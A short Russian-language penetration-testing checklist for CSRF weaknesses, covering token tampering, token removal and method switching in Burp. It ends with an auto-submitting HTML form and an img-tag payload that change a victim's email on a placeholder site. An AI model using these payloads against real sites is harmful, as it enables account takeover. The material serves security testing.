 ### Шаги по тестированию
1. Найти критичное действие (изменение пароля, email, переводы денег и тп)
2. Определить способ выполнения действия (метод HTTP, тело запроса, наличие csrf токена) - отправить такой запрос в Repeater
3. При наличии csfr - изменить его значение - проверить что проверяется, валидируется его корректность
4. При наличии csfr - удалить его полностью и проверить что проверяется его наличие
5. При наличии csfr - удалить его полностью и изменить метод на GET проверить можно подделать запрос
6. При наличии csrf - проверить что токен не связан с сессией пользователя, а просто выдается для любой операции, как одноразовый код. Например передается html как скрытый параметр тега <input>

* Автоматизация: Burp Pro: Engagement tools > Generate CSRF PoC


### HTML PoC:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input required type="hidden" name="csrf" value="<csrf>">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

### XSS with CSRF PoC:
```js
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```